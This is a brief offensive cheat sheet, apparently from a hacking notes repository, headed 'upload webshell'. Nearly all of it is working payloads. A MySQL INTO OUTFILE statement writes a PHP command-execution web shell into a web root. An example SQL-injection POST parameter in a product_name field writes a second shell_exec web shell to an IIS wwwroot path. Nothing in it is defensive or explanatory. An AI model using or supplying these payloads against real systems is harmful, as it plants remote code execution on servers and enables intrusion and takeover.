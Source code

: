 # upload webshell

## Mysql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/js/cmd.php"

### Exemple de parametre POST:
product_name= D-Link'; select “<?php echo shell_exec($_GET['c']);?>” into OUTFILE ‘c:\\Inetpub\\wwwroot\\mygreatbak.php’;#


